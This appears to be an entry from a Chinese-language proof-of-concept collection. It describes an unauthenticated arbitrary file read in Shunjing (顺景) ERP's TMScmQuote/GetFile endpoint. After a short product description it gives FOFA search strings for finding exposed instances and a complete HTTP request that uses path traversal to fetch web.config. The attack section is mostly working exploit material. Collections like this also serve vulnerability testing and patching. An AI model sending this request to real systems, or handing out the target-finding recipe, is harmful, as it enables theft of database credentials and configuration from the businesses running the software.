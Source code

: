 # 顺景ERP系统FullGuidFileName任意文件读取漏洞

顺景ERP是一款功能全面、高度集成、易于扩展的企业管理软件，能够帮助制造企业实现智能化、精益化管理，提升企业的竞争力和盈利能力。为企业提供全方位信息化的管理应用与支持，例如，在精密五金行业，系统可根据企业的业务流程及特性提供针对性信息化管理方案；在注塑行业，系统具有完整的水口料管理方案，对企业成本控制严谨到位；在电子行业，系统的BOM批量变更功能，能快速准确进行物料变更，并支持替代料功能等。顺景ERP TMScmQuote/GetFile 接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

## fofa

```javascript
body="/api/DBRecord/getDBRecords"
body="顺景软件 WebAPI 服务端"
```

## poc

```javascript
GET /api/TMScmQuote/GetFile?FullGuidFileName=/../web.config&FileName= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20241211205713046](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412112057111.png)
